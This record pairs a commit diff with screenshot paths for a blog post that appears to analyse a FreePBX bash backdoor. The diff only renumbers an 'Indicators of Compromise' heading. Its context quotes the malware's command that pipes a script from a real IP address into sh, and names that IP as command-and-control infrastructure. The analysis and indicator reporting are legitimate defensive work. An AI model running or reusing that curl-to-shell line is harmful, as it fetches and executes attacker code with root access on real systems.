

Before and after one commit to ofri09bs/ofri09bs.github.io, a Jekyll site: the page built from _posts/2026-05-04-freepbx-bash-backdoor.md, in a window 1280 px wide and 900 px high, scrolled down 5363 px. Shown: the whole window, without its empty margins (183-1073 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2026-05-04-freepbx-bash-backdoor.md

```diff
--- a/_posts/2026-05-04-freepbx-bash-backdoor.md
+++ b/_posts/2026-05-04-freepbx-bash-backdoor.md
@@ -168,7 +168,7 @@ I also found this code `system("curl http://45.95.147.178/z/post/root.php|sh");`
 I suspect the ultimate goal of this malware was to **open a backdoor for root access via SSH** while maintaining **continuous re-infection** mechanisms and **eliminating competing threats**, indicating use as part of a larger botnet infrastructure.
 The code is very obfuscated and complicated with a lot of base64 and bash nonsense with no purpose and repetitive code that I assume is meant to confuse malware researchers.
 
-## 3. Indicators of Compromise (IOCs)
+## Indicators of Compromise (IOCs)
 
 **C2 Infrastructure (IPv4 & URLs):**
 * 45.95.147.178
```
